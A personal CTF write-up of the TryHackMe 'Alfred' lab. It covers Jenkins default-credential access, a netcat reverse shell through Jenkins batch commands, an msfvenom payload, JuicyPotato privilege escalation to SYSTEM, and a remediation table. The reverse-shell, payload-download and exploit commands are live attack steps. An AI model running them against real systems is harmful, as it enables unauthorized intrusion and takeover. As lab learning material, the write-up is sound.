<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-01-07-alfred.md">~/Box</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat writeups/thm/alfred.md



*https://tryhackme.com/room/alfred*<br />
`Windows` `Jenkins` `PrivEsc` `TokenImpersonation` `JuicyPotato`

<br />

## Platform CTF Writeup: Box
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery (Port 80/tcp)](#12-web-discovery-port-80-tcp)
  - [1.3 RDP (Port 3389/tcp)](#13-rdp--port-3389-tcp)
  - [1.4 Web Discovery (Port 8080/tcp)](#14-web-discovery--port-8080-tcp)
- [2. Exploitation](#2-exploitation)
  - [2.1 Nishang](#21-nishang)
  - [2.2 Troubleshooting](#22-troubleshooting)
  - [2.3 Alternative Approach](#23-alternative-approach)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Creating a shell](#33-creating-a-shell)
  - [3.4 Token Impersonation](#34-token-impersonation)
  - [3.5 Root Flag](#35-root-flag)
- [4. Remediation](#4-remediation)
  - [4.1 Vulnerabilities found](#41-vulnerabilities-found)
  - [4.2 Recommendations](#42-recommendations)
- [5. Conclusion](#5-conclusion)
- [References](#references)

# Walkthrough

### Summary:

The TryHackMe Alfred room is a virtual machine that simulates a scenario where a Jenkins server is being used. This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made change to it.

The goal of the room is to learn how to gain an initial shell, then escalate privileges by exploiting Windows authentication tokens.

As I progressed through the room, I had to perform reconnaissance on the target machine and identify vulnerabilities in the Jenkins server using tools such as Nmap, Nishang, MSFvenom and enumerate the server after gaining initial access. 

The room was designed with the use the Metasploit and its meterpreter module in mind, yet I chose a different and more manual approach instead to really get a grasp of the methodologies. 

- I used the information gathered to login to the Jenkins server using the default credentials (admin:admin).
- Performed reconnaissance on the Jenkins server to get System Information
- Configured a project to download nc.exe and another project to initialize a reverse shell by executing Windows batch commands.
- After successfully capturing the shell, and finding out the SeImpersonatePrivilege was enabled, I downloaded JuicyPotato.exe and a reverse shell script to the server.
- I then used JuicyPotato to execute the reverse shell script to escalate privileges to NT AUTHORITY\SYSTEM.

Although I faced some challenges, such as the initial attempt to perform a Juicy Potato attack not working, I was able to overcome them by trying different methods and scripts until I found the one that worked.

In conclusion, this room was a challenging and informative experience that gave me a deeper understanding of exploiting vulnerabilities in Jenkins servers and gaining access to sensitive information, as well as escalating privileges using different methods and scripts.

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We start with the reconnaissance by running an initial Nmap scan.

```
sudo nmap -p- --min-rate 10000 $IP -Pn -oN scans/all-ports.nmap && ports=$(cat scans/all-ports.nmap | grep "open" | grep -v "filtered" | cut -d "/" -f 1 | sort -u | xargs | tr ' ' ',')
```

-   **-p-**: scan all ports
-   **--min-rate**: set high scanning rate
-   **-oN**: write output to nmap file

The script then uses **grep** and **cut** commands to filter and extract the open ports from the output file, sorts them, and stores them in a variable called ports. It was noted that this machine does not respond to ping (ICMP), thus the -Pn syntax will be added.  

The second script is used to scan the open ports identified in the first script for any services running on them. It uses the Nmap command with the options `-p$ports` to scan the open ports stored in the variable, `-sCV` to perform a service version scan and OS detection, and `-oN scans/services.nmap` to output the results to a file named **services.nmap** in the scans directory. This script allows you to gather more information about the open ports and the services running on them.

```
sudo nmap -p$ports -sCV -Pn -oN scans/targeted.nmap $IP
```

-   **-sC**: run default nmap scripts
-   **-sV**: detect service version

**Summary of the Nmap scan results:**

```
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn not have a title (text/html).
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=<alfred>
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn not have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Based on the information gathered in the scan, it is likely that the target system is running a Windows operating system, and that there is a web server running on ports **80** and **8080**. The open port **3389** is possibly running RDP service on the target system. I typically go for the web servers first.

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>

This port is open and running the HTTP service, using **Microsoft IIS httpd 7.5**. The web server on port 80 lead to a simple landing page displaying a picture of **Bruce Wayne**. With a quick **Wappalyzer** we can confirm it is indeed a Microsoft IIS httpd 7.5 server as shown in the previous targeted Nmap scan. Apart from an **email address**, there is nothing of interest in the page source.





### 1.3 RDP (Port 3389/tcp):<a name="13-rdp--port-3389-tcp"></a>

While working on this box, I ignored this possible attack vector due to a possible rabbit hole. After completing the box however, I went back to try a couple of things in order to try and run some further Nmap enumeration (hence the difference in $IP).  

**The first command** checks the RDP service's version and encryption level on the target IP. It doesn't indicate any specific vulnerabilities, only possible service versions and encryption levels.

RDP service is known to have exploitable vulnerabilities such as **MS12-020**, which can lead to **remote code execution** on Windows systems. To check if the target system is updated and patched against this vulnerability, I performed a **second Nmap scan**. However, the scan did not yield any results, leading me to believe that further attempts at brute force attacks on login credentials would be a fruitless endeavor. Thus indeed confirming my initial caution of it being a rabbit hole.



### 1.4 Web Discovery (Port 8080/tcp):<a name="14-web-discovery--port-8080-tcp"></a>

Moving on to port 8080, I easily gained access to a **Jenkins** web server using **default credentials (admin:admin)**. Jenkins is an open-source automation server that offers a user-friendly web interface for managing and monitoring software development processes, such as **building and testing code**, deploying software, and reporting on results.



While the Nmap results stated there is a **http-robots.txt** with 1 disallowed entry on this Port. I checked `http://10.10.15.191:8080/robots.txt` which resulted in the following message where it's shown they clearly do not want us to **build and test code** as mentioned above:



---
## 2. Exploitation

Moving to the dashboard we can see there is already is a project available. We can also see the current Jenkins version that is running **(Jenkins ver. 2.190.1)**, which according to the **Manage Jenkins** on `http://10.10.15.191:8080/manage` page is severely outdated. Warnings have been published for the currently installed components.





Doing some further research while browsing through the web server, I was also able to easily extract the underlying **System Information** via `http://10.10.15.191:8080/systemInfo`. This confirmed the Windows version, included both the **cmd.exe** file and **\temp** folder locations as well as enclosed the **USERDOMAIN** and **USERNAME**. 

**See filtered output below**:

```
* System Properties
        - os.name	Windows 7
        - os.version	6.1

    * Environment Variables
        - COMPUTERNAME	ALFRED
        - ComSpec	C:\Windows\system32\cmd.exe
        - USERDOMAIN	alfred
        - USERNAME	bruce
        - USERPROFILE	C:\Users\bruce
        - WINSW_EXECUTABLE	C:\Program Files (x86)\Jenkins\jenkins.exe
        - TEMP	C:\Users\bruce\AppData\Local\Temp
```

Yet as per the TryHackMe instructions it's on to find a feature of the tool that allows us to **execute commands** on the underlying system. Going back to the project and being reminded of the **robots.txt**, we can see the build now option here and also note the configure option:



With the **Configure** option (`http://10.10.15.191:8080/job/project/configure`) leading to a way to execute Windows batch commands:



### 2.1 Nishang:<a name="21-Nishang"></a>

Knowing where we can provoke the server to initialize a reverse shell to our machine exploiting the above, my first attempt was trying the method as described via TryHackMe by using [Nishang](https://github.com/samratashok/nishang). 

The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to gain initial access.

### 2.2 Troubleshooting:<a name="22-troubleshooting"></a>

I was able to execute a Windows batch command via Jenkins to download the **Invoke-PowerShellTcp.ps1** which I was hosting via my `python3 -m http.server`.



The  second Windows batch command `Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port` somehow wasn't initializing a stable reverse shell, or simply not at all.





### 2.3 Alternative Approach:<a name="23-alternative-approach"></a>

While targeting a Windows machine, I took an **alternative approach** by creating two projects in the Jenkins dashboard. **Project 1** executed a batch command that downloaded the **nc.exe** file from my **http server** and saved it to the **\Temp** folder, which I located using `http://10.10.15.191:8080/systemInfo`.



In **Project 2**, I was able to utilize a batch command that included both the **nc.exe** and **cmd.exe** files. I was able to locate the latter by enumerating the system information as mentioned earlier. With this method, I was able to generate a reverse shell that I captured using **Netcat** on my attacking machine. The command used was:
```
C:\Users\bruce\AppData\Local\Temp\nc.exe -e C:\Windows\system32\cmd.exe IP_ADDRESS 666
```

This allowed me to establish a connection to the target machine via a reverse shell, which I captured using the command `rlwrap nc -nlvp 666`.

>_It's worth mentioning that `rlwrap` is an useful command line utility that allows us to navigate through command history using the arrow keys._



Now that we have an initial shell on this Windows machine as **Bruce**, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\SYSTEM.

---
## 3. Post Exploitation

### 3.1 User Flag:<a name="31-user-flag"></a>

Once I gained access, I used the command `dir "user.txt" /s` to search for the user flag. The `/` argument searches from the top-level or root directory of the hard drive, and the `/s` argument is used to search all sub directories, making it a quick and efficient method for finding the flag.



### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

First thing I did was checking privileges with using the `whoami /priv` command quickly reveling that the user had the **"SeDebugPrivilege"** and **"SeImpersonatePrivilege"** privileges **enabled**, indicating that Impersonation and Potato Attacks might be a potential attack vector for escalating privileges.

Given these results, I decided to utilize the **JuicyPotato** exploit to gain elevated privileges.

>_**JuicyPotato** is a privilege escalation exploit that allows an attacker to gain higher-level permissions on a Windows system. It does this by using a technique called **"Token impersonation"** where it takes the security token of a privileged process, and uses it to execute a command or payload with those elevated permissions. This exploit can be used to bypass security restrictions and gain access to sensitive information on a compromised system._

### 3.3 Creating a shell:<a name="33-creating-a-shell"></a>

After successfully finding a attack vector, I created a priv.bat file including a basic reverse sell using the nc.exe. While that did not work however, a different reverse shell had created by using MSFvenom to generate a payload using the following command: 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=9002 -f exe > rev.exe
```

-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

Once the payload is generated, it can be sent to the target machine and executed. This will open a connection back to the machine specified in the LHOST argument, allowing the attacker to run commands on the target machine as if they were physically sitting at the keyboard.

### 3.4 Token Impersonation:<a name="34-token-impersonation"></a>

In order to gain elevated privileges on the targeted Windows machine, I navigated to the **\temp** folder using the command prompt and downloaded two files from my http server, "rev.exe" and "JuicyPotato.exe" using the  `certutil` command.

Next, I found the appropriate **CLSID** for the version of Windows by visiting a website that lists them:

<br />
##### [http://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/](http://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/)

With everything in place, I used the JuicyPotato exploit to escalate my privileges on the target machine. This exploit allows me to execute a payload, in this case `rev.exe`, and create a reverse shell on port 9002 using a specific CLSID. I also used the `-t` option to try both CreateProcessWithTokenW and CreateProcessAsUser methods. I had a Netcat listener running on my attacking machine to catch the reverse shell.
>**CreateProcessWithTokenW** is a Windows API function that allows a process to start another process with a specified token. This can be used to launch a process with different permissions or security context.
>
>**CreateProcessAsUser** is a similar function, but it allows a process to start another process with a specified token and user profile. This is typically used to launch a process in the context of a different user.





### 3.5 Root Flag:<a name="35-root-flag"></a>

As you see we have successfully elevated our privileges to System and completing the task. Once again I used the command `dir "root.txt" /s` to search for the root flag.



---
## 4. Remediation 

It's important to note that remediating vulnerabilities requires an ongoing effort and it's important to keep the system up to date and review it regularly for new vulnerabilities. It's also important to give clear instructions and guidelines for the staff, and to establish a plan of action in case of a security breach.

### 4.1 Vulnerabilities found:<a name="41-vulnerabilities-found"></a>

1. **Insecure default configuration**: The Jenkins server was found to have several insecure default configurations such as weak credentials, unpatched vulnerabilities, and unsecured data storage.
2. "**SeImpersonatePrivilege**" privileges were enabled as a user, indicating that Impersonation and Potato Attacks might be possible as a method for escalating privileges.

### 4.2 Recommendations:<a name="42-recommendations"></a>

The following tables illustrate the vulnerabilities found by impact and recommended remediations:

| Critical | High | Moderate | Low |
|----------|------|----------|-----|
| <p align="center">:red_circle: x3</p> | <p align="center">:orange_circle: x2</p> | <p align="center">:yellow_circle: x2</p> | <p align="center">:green_circle: x4</p> |

| Finding | Severity | Recommendation |
|---------|----------|----------------|
| Jenkins: default credentials | <p align="center">:red_circle:</p> | Change default credentials to a strong, unique username and password. |
| Jenkins: outdated software | <p align="center">:red_circle:</p> | Keep Jenkins and all its plugins up to date with the latest security patches. |
| Windows version outdated | <p align="center">:red_circle:</p> | Update to a more recent and supported version. |
| Remote command execution enabled | <p align="center">:orange_circle:</p> | Disable remote command prompt execution to prevent downloading of executables from untrusted sources. |
| JuicyPotato exploit mitigation | <p align="center">:orange_circle:</p> | Apply kernel patching or run Jenkins as a non-administrative user. |
| Weak data storage | <p align="center">:yellow_circle:</p> | Implement proper access controls and encryption for secure data storage. |
| Network segmentation | <p align="center">:yellow_circle:</p> | Implement network segmentation and isolation to limit impact of a potential compromise. |
| Permissions review | <p align="center">:green_circle:</p> | Review permissions and roles assigned to users and groups, and limit access to sensitive data and functionality. |
| IP-based firewall | <p align="center">:green_circle:</p> | Use a firewall to restrict access to Jenkins to only trusted IP addresses. |
| Intrusion detection | <p align="center">:green_circle:</p> | Monitor Jenkins server for suspicious activity and implement intrusion detection and prevention measures. |
| Remove unnecessary features | <p align="center">:green_circle:</p> | Disable or remove any unnecessary plugins or features on Jenkins that are not being used. |

---
## 5. Conclusion 

Overall, this room was an excellent learning experience. It was challenging and informative, and I enjoyed every moment of it. It is a great way to learn about exploiting vulnerabilities in Jenkins servers and gain access to sensitive information, as well as escalate privileges using different methods and scripts.

<div style="text-align:center">
    
</div>

---
## References
1. https://tryhackme.com/room/alfred
2. https://github.com/samratashok/nishang
3. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
4. https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
5. http://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/
6. https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505
